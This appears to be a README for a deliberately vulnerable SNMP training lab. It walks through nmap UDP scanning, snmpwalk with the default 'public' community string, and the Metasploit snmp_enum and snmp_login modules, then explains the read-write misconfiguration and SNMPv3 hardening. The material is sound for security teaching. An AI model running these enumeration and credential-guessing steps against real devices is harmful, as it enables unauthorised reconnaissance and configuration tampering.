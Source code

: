 # SNMP Demo Lab

# Follow the instructions given below to solve (Attack scenario)

* Step 1 Open the repository

```bash
https://github.com/bvabhishek/snmp-goat.git
```

* Steps 

#set the environment variable 

```bash
export ip=<ipaddress>
```
### Lab 1 - Attack Scenario 
# Recon with nmap 
```bash
    nmap -sV -p 1161 -vv $ip -sU
```
 Main catch here is, always run -sU, normal open port check scan wont help you find udp ports

  * PORT     STATE SERVICE REASON       VERSION
  * 1161/udp open  snmp    udp-response SNMPv1 server; net-snmp SNMPv3 server (public)

    We can report this as info since snmpv1 which is un encrypted 

*  Exploitation by using snmpwalk 
   SNMP walk is used to gather a large amount of SNMP data from a device in a single operation. This is useful for monitoring, managing, and troubleshooting network devices like routers, switches, servers, and more.

```bash
snmpwalk -v1 -c public $ip:1161
```
```bash
snmpwalk -v 2c -c public $ip:1161
```

 * The defense part - Let's see the Misconfiguration

 ```bash
    nano /etc/snmp/snmpd.conf
```

# Exploitation with Metasploit 
* Lets see how we can exploit with help of msfconsole 
We shall be checking on 3 auxiliary modules 

1. auxiliary/scanner/snmp/snmp_enum
2. auxiliary/scanner/snmp/snmp_login



```bash
    msfconsole
```
* auxiliary/scanner/snmp/snmp_enum

```bash
   use auxiliary/scanner/snmp/snmp_enum
```
```bash
   options
```
```bash
   set rhosts $ip
```

```bash
   set rport 1161
```
```bash
   run
```

# auxiliary/scanner/snmp/snmp_login

```bash
   use auxiliary/scanner/snmp/snmp_login
```
```bash
   options
```
```bash
   set rhosts $ip
```

```bash
   set rport 1161
```
```bash
   run
```

try with set rport 161 and 1161 and look for the Access level permissions given 

# While we can see on port 1161 says read-write which is a huge misconfiguration 

# whats the misconfiguration check /etc/snmp/snmpd.conf 

* Default Community String: Using the default community string public is a common misconfiguration. It is well-known and often exploited by attackers.

* Read-Write Access: The access level is read-write, which means that an attacker can not only read information from the device but also modify its configuration or settings, potentially leading to serious security issues.

* Information Disclosure: The proof provided (sysDescr.0) shows that the device is a Linux machine with specific details about the kernel version and hostname, which can be valuable information for an attacker.

### Lab2 Defense - Best Practice 

## Try on SNMP v3 ... Port to target 161

* Steps 

# set the environment variable 

```bash
export ip=<ipaddress>
```

# Note the port targetted on this system here is 161 only 

* Repeat the above attack scenario steps for the new IP address and check for the best practices 
